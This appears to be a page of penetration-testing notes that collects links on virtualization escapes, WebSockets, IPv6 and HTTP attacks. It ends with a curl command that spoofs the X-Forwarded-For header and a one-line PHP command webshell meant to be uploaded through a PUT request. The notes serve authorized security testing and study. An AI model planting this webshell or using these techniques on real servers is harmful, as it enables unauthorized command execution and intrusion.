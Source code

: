 &nbsp;
## Breaking out of Virtualization

[Breaking into the Data Centre](https://www.youtube.com/watch?v=9ISRZJetUJw)

[VENOM Vulnerability](http://venom.crowdstrike.com)

&nbsp;
## WebSockets

[Hacking with WebSockets HTML5](https://www.youtube.com/watch?v=bRn6ViFAomY)

&nbsp;
## IPV6

[Penetration testing with IPv6](http://uninformed.org/?v=all&a=46&t=txt)

[How to pwn things with IPv6](https://blog.zsec.uk/ipv6-pwn/)

&nbsp;
## HTTP

**Resources**

[OWASP AppSec Videos](https://www.owasp.org/index.php/Category:OWASP_Video)

[OWASP Testing Guide](https://www.owasp.org/images/1/19/OTGv4.pdf)

[Cracking the Lens: Attacking HTTPs hidden attack surface](https://www.youtube.com/watch?v=1Newz_wkMvs)

[How I hacked hundreds of companies through their helpdesk](https://medium.freecodecamp.org/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c)

##### Headers

Find what request methods the web server supports  
Add the following into your Burp repeater
```
OPTIONS * HTTP/1.1
...
```

Send fake IP

```
Kali> curl --header "X-Forwarded-For: 192.168.1.1" http://$TARGET
```

##### Webshells

PHP CMD Shell

Place in body of a PUT request and give it a file name
```
PUT /directory/shell.php HTTP/1.1
...

<body>
<?php
Echo exec($_GET[cmd]);
?>
```
